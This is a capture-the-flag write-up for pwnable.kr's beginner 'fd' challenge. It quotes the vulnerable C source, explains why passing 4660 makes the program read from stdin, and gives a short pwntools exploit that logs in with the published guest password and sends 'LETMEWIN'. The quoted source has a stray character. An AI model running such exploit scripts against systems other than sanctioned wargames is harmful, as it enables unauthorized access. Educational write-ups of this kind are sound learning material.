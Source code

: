 ## Description
fd - 1 pt [writeup]

> Mommy! what is a file descriptor in Linux?
>
> \* try to play the wargame your self but if you are ABSOLUTE > beginner, follow this tutorial link:
> https://youtu.be/971eZhMHQQw
>
> ssh fd@pwnable.kr -p2222 (pw:guest)

## Solution
We are given a binary file `fd`, and it's source code `fd.c`. Let's take a look at the source code:
### fd.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;
f
}
```
We can see that the program is reading from a file descriptor, which is passed as the first argument to the program.\
The program then subtracts `0x1234` from the file descriptor and reads 32 bytes from that file descriptor.\
If the string "LETMEWIN\n" is read, the program prints the flag by calling `/bin/cat flag`.

As you might already know, `stdin` is file descriptor `0`, so if we pass `0x1234` as the first argument to the program, it will read from `stdin`.\
Then we can just pass the string "LETMEWIN\n" to the program and it will print the flag.\
Notice that `0x1234` in hex is `4660` in decimal.

That's basically it, here's the exploit code:
```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'debug'
context.arch = 'i386'
# context.binary = './fd'

shell=ssh('fd','pwnable.kr',password='guest',port=2222)
p = shell.process(['fd', '4660'])

p.sendline(b"LETMEWIN")
p.interactive()
```

## Setup
```bash
scp -P2222 fd@pwnable.kr:* ./fd # Download the files from the server
```
